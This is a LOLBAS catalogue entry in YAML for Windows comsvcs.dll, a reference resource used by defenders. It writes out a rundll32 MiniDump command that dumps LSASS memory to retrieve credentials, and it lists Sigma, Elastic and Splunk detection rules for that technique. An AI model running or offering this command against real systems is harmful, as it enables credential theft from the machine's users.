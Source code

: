 ```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author: LOLBAS Team
Created: 2019-08-30
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump [LSASS_PID] dump.bin full
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_rundll32_process_dump_via_comsvcs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_access/proc_access_win_lsass_dump_comsvcs_dll.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/dump_lsass_via_comsvcs_dll.yml
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
    Handle:
---
```

